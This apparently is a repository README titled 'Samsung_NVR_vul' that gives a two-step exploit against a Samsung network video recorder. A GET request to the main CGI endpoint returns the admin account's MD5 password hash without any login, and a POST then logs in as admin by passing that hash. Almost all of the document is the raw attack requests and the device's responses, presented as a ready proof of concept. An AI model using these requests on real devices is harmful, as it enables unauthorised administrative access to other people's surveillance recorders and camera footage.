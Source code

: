 # Samsung_NVR_vul

### First, get the MD5 hash password of the 'admin' account.

Send:

GET http://192.168.1.14/cgi-bin/main-cgi?json={"cmd":201,"szUserName_Qry":"admin","szUserName":"","u32UserLoginHandle":0} HTTP/1.1
Host: 192.168.1.14
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive

Recv:

HTTP/1.1 200 OK
Content-Type: text/html;CHARset=utf-8

{
	"szUserName":	"",
	"szLoginPasswd":	"e10adc3949ba59abbe56e057f20f883e",
	"au32LoginPasswd":	[13423221, 5515125, 6390751, 4733341, 12838108, 13423221, 5515125, 6390751, 10132668, 371291, 12838108, 13423221, 5515125, 10132668, 371291, 13423221, 10132668, 371291, 0, 0],
	"u16UserPermissionCnt":	1,
	"u8UserRole":	0,
	"u8UserBasePermission":	255,
	"u16UserExtralPermissionCnt":	1,
	"u32UserLivePermission":	[4294967295],
	"u32UserPTZPermission":	[4294967295],
	"u32UserVODPermission":	[4294967295],
	"u32UserRecordPermission":	[4294967295],
	"u32UserLocalBackup":	[4294967295],
	"code":	0,
	"success":	true
}

"szLoginPasswd":	"e10adc3949ba59abbe56e057f20f883e" is the MD5 hash password of 'admin' account.


### Second, log in to the device with that MD5 hash.

Send:

POST http://192.168.1.100/cgi-bin/main-cgi HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Referer: http://192.168.1.100/
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Content-Length: 246
DNT: 1
Host: 192.168.1.100
Pragma: no-cache

lLan=0&szUserName=admin&szUserPasswd=e10adc3949ba59abbe56e057f20f883e&szUserPasswdEx=%5B6477625%2C24215867%2C12838108%2C11382568%2C7503741%2C7198498%2C24215867%2C7503741%2C7198498%2C23345327%2C7198498%2C10192199%2C23345327%2C7198498%2C10192199%5D

szUserPasswd=e10adc3949ba59abbe56e057f20f883e is the MD5 hash password we read from the first step.
